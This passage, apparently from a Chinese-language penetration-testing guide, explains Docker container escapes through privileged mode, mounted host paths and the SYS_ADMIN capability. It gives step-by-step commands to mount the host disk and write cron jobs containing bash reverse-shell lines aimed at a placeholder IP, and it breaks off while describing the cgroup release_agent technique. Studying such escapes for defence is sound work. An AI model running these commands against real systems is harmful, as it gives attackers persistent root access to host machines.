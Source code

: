 6. 在新容器 /aa 路径下完成对宿主机资源的访问,写入计划任务文件，反弹 shell
    ```bash
    cd /aa
    ls
    echo '* * * * * bash -i >& /dev/tcp/x.x.x.x/9988 0>&1' >> /aa/var/spool/cron/root
    ```
    成功接收到宿主机反弹的 shell

**privileged 特权模式**
- 漏洞描述

    特权模式于版本 0.6 时被引入 Docker，允许容器内的 root 拥有外部物理机 root 权限，而此前容器内 root 用户仅拥有外部物理机普通用户权限。

    使用特权模式启动容器，可以获取大量设备文件访问权限。因为当管理员执行 `docker run --privileged` 时，Docker 容器将被允许访问主机上的所有设备，并可以执行 mount 命令进行挂载。

    当控制使用特权模式启动的容器时，docker 管理员可通过 mount 命令将外部宿主机磁盘设备挂载进容器内部，获取对整个宿主机的文件读写权限，此外还可以通过写入计划任务等方式在宿主机执行命令。

- 相关文章
    - [特权容器导致容器逃逸](https://github.com/Metarget/metarget/tree/master/writeups_cnv/config-privileged-container)

1. 首先以特权模式运行一个 docker 容器
    ```bash
    docker run -it --privileged=true ubuntu /bin/bash
    ```

2. 查看磁盘文件
    ```bash
    fdisk -l
    ```

3. dm-0 存在于 `/dev` 目录下,新建一个目录,将 `/dev/dm-0` 挂载至新建的目录
    ```bash
    mkdir /aaa
    mount /dev/dm-0 /aaa
    ```

4. 写入计划任务到宿主机
    ```bash
    echo '* * * * * bash -i >& /dev/tcp/x.x.x.x/2100 0>&1' >> /aaa/var/spool/cron/root
    ```

**capability SYS_ADMIN**
- 相关文章
    - [Understanding Docker container escapes](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)

- 利用条件
    - 在容器内 root 用户
    - 容器必须使用 SYS_ADMIN Linux capability 运行
    - 容器必须缺少 AppArmor 配置文件，否则将允许 mount syscall
    - cgroup v1 虚拟文件系统必须以读写方式安装在容器内部

- 复现测试

    我们需要一个 cgroup，可以在其中写入 notify_on_release 文件(for enable cgroup notifications)，挂载 cgroup 控制器并创建子 cgroup，创建 `/bin/sh` 进程并将其 PID 写入 cgroup.procs 文件，sh 退出后执行 release_agent 文件。
